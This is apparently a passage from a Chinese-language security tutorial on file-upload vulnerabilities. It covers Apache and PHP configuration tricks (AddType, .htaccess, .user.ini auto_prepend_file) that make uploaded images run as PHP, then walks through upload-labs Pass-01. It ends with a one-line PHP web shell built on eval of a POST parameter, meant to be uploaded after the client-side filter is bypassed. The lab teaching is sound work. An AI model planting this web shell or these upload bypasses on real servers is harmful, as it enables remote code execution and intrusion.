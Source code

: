     7.配置文件

    - **1.httpd.conf**

    ​      如果其中包含`AddHandler php5-script .php`只要文件名    中包含.php就会以php文件执行

    ​     如果其中包含`AddType application/x-httpd-php .jpg`即使文件扩展为`.jpg`也会按照php执行，该选项是与类型表相关的，描述的是扩展名与文件类型之间的关系，在客户端与服务端协商的时候，客户端会描述需要什么类型的字段，服务端调取相应后缀名的文件。

    - **2.htaccess**

      作用于当前目录及其子目录的配置文件

    - **3.user.ini** 

      通过`.user.ini` 绕过文件上传过滤（或者说叫解析漏洞），与`.htaccess`文件利用类似，但是`user.ini`文件和htaccess相比：**在修改后不用重启服务器**，只需要等待刷新时间即可
      
      在上传的`.user.ini`文件中写入`auto_prepend_file=01.gif`这样就可以在该目录下的所有php文件中包含`01.gif`

## **以下以upload-labs演示** 

### 1.前端脚本检测拓展名

```javascript
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

可以看出此为典型的前端文件后缀名判断，为白名单判断，，只允许上传后缀为.jpg .png .gif 的文件。但前端过滤，我们可以直接注释掉前端js代码，或者删除触发条件，或者使用burpsuit抓 包进行修改。上传服务器可执行的脚本文件，进行getshell。

**upload-labs-pass-01**

方法一：

1.定位到上传文件的控制按钮，找到触发点

[![sgc7xH.md.png](https://s3.ax1x.com/2021/01/19/sgc7xH.md.png)](https://imgchr.com/i/sgc7xH)

2.去掉触发点或者去掉js代码，上传服务器可解析的脚本文件

```php
<?php
error_reporting(0);
@eval($_POST['cmd']);
phpinfo();
?>
```
